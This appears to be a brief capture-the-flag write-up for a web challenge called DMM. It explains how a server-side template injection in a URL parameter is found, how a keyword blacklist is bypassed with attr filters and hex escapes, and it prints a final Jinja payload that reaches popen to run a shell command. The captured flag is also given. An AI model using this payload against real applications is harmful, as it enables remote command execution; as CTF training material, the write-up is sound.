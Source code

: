 DMM
===
**Category**: Web

**Points**: 487 (22 solves)

**Author**: Rosee
### Description
```
Please check it carefully
```
### Solution
- Enter `?url` by any parameters. it render my ouput => `ssti` and i can see domain with `ssti` lmaoo :)
- it have a blacklist, i find list black list ```config, request, __, [], join```
- bypass `_` with `attr`
- bypass `request, __,[],join` with hex `\x5f,\x5f\x5fgetitem\x5f\x5f`
- payload final : `{{(''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(132)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen'))('cat flag.txt').read()`
### Flag
- `darkCON{w0ww_y0u_ar3_sUp3er_h4ckeR_ggwpp_!!}`
